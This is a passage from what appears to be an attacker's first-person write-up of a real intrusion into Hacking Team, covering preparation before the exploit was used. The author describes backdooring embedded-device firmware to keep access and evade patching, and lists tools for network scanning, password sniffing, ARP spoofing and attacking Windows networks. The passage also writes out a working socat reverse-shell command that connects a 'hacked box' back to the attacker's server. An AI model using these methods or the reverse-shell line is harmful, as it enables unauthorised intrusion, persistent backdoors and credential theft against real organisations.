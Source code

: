 [1] http://pastebin.com/raw.php?i=cRYvK4jb
[2] http://sourceforge.net/projects/joomscan/
[3] http://www.devttys0.com/
[4] https://docs.google.com/presentation/d/1-mtBSka1ktdh8RHxo2Ft0oNNlIp7WmDA2z9zzHpon8A


# [ 6 - Be Prepared ]

I did a lot of work and testing before using the exploit against Hacking Team.
I wrote a backdoored firmware, and compiled various post-exploitation tools
for the embedded device. The backdoor serves to protect the exploit. Using the
exploit just once and then returning through the backdoor makes it harder to
identify and patch the vulnerabilities.

The post-exploitation tools that I'd prepared were:

1) busybox

   For all the standard Unix utilities that the system didn't have.

2) nmap

   To scan and fingerprint Hacking Team's internal network.

3) Responder.py

   The most useful tool for attacking windows networks when you have access to
   the internal network, but no domain user.

4) Python

   To execute Responder.py

5) tcpdump

   For sniffing traffic.

6) dsniff

   For sniffing passwords from plaintext protocols like ftp, and for
   arpspoofing. I wanted to use ettercap, written by Hacking Team's own ALoR
   and NaGA, but it was hard to compile it for the system.

7) socat

   For a comfortable shell with a pty:
   my_server: socat file:`tty`,raw,echo=0 tcp-listen:my_port
   hacked box: socat exec:'bash -li',pty,stderr,setsid,sigint,sane \
		  tcp:my_server:my_port

   And useful for a lot more, it's a networking swiss army knife. See the
   examples section of its documentation.

8) screen

   Like the shell with pty, it wasn't really necessary, but I wanted to feel
   at home in Hacking Team's network.

9) a SOCKS proxy server
